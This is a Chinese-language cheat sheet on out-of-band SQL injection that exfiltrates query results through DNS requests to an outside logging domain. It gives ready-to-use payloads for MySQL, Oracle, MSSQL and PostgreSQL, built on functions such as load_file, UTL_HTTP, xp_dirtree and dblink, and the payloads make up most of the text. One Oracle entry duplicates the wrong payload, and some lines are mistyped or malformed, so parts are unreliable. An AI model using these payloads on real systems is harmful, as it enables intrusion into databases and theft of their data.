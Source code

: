 # SQL 注入信息外带（OOB）
SQL注入时候，利用特定函数，将查询结果拼接到DNS协议请求中，带出来，从而实现回显的命令注入漏洞利用。  

## 0x01 前期准备
我们需要一个三级域名服务器（nameserver）也是DNS服务器（DNS Server）：   
1. dnslog  http://www.dnslog.cn/
2. 自己搭建个DNS服务器和购买域名  

## 0x02 漏洞利用
re111.dnslog.cn 是你拥有的三级域名。    
### 2.1 MySQL
#### 2.1.1 条件
- Windows
- mysql.ini 中 secure_file_priv 必须为空，select @@secure_file_priv
- 适用于联合注入或堆叠注入
#### 2.1.2 利用
利用 mysql 中的 load_file() 函数，借助了Windows UNC路径特性。   
```
select load_file(concat("\\\\",version(),".re111.dnslog.cn//1ndex.txt"));
```
### 2.2 Oracle
#### 2.2.1 条件
- 适用于联合注入或堆叠注入
#### 2.2.2 利用

UTL_HTTP.REQUEST()
```
SELECT UTL_HTTP.REQUEST((SELECT * from v$version)||'.re111.dnslog.cn') FROM sys.DUAL;
```
DBMS_LDAP.INIT()
```
SELECT DBMS_LDAP.INIT((SELECT * from v$version)||'.re111.dnslog.cn',80) FROM sys.DUAL;
```
HTTPURITYPE()
```
SELECT HTTPURITYPE((SELECT * from v$version)||'.re111.dnslog.cn').GETCLOB() FROM sys.DUAL;
```
UTL_INADDR.GET_HOST_ADDRESS()
```
SELECT HTTPURITYPE((SELECT * from v$version)||'.re111.dnslog.cn').GETCLOB() FROM sys.DUAL;
```

### 2.3 MSSQL
#### 2.3.1 条件
- Winodows
- 适用于联合注入或堆叠注入
#### 2.3.2 利用
原理跟mysql利用一致。    
```
d=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.re111.dnslog.cn'; EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"'); 
```
```
id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.re111.dnslog.cn'; EXEC('master..xp_fileexist "\'%2b@host%2b'\foobar$"'); 
```
```
id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.re111.dnslog.cn'; EXEC('master..xp_subdirs "\'%2b@host%2b'\foobar$"');
```
### 2.4 ostgreSQL
#### 2.4.1 条件
- Windows
- 适用于堆叠注入

```
id=1;DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result TEXT; BEGIN SELECT INTO query_result (select version()); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.re111.dnslog.cn\\\\aaa.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgSQL SECURITY DEFINER; SELECT temp_function(); 
```
开启 db_link 扩展：

```
id=1;CREATE EXTENSION dblink;SELECT * FROM dblink('host='||(SELECT version())||'.re111.dnslog.cn username=1ndex password=1ndex','SELECT 1ndex') RETURNS (result TEXT); 
```

## Ref
- https://www.cnblogs.com/wjrblogs/p/14367387.html
